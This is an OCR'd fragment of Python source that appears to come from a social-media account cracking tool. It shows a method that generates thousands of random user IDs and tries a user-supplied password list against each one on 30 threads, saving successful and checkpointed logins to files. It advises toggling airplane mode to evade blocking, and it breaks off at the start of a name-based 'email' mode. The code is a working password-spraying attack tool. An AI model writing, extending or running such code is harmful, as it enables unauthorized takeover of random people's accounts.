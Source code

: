 
	def old_13(self):

		x = 1111111111111

		xx = 9999999999999

		idx = "1000"

		idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])

		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))

		if (limit)>50000:

			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))

		try:

			for n in range(limit):

				_ = random.randint(x,xx)

				__ = idx

				self.id.append(__+str(_))

			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 

			with ThreadPoolExecutor(max_workers=30) as coeg:

				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))

				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))  

				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))

				if len(listpass)<=5:

					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))

				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))

				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))

				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))

				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))

				for user in self.id:

					coeg.submit(self.api, user, listpass.split(","))

			exit("\n\n%s [#] CRACK COMPLETE..."%(G))

		except Exception as e:exit(str(e))

	def email(self):

		x = 111

		xx = 999

		nam = input("%s [?] TYPE A NAME %s(EX: Abir): "%(Y,G))

		nam = nam.replace(" ", "")
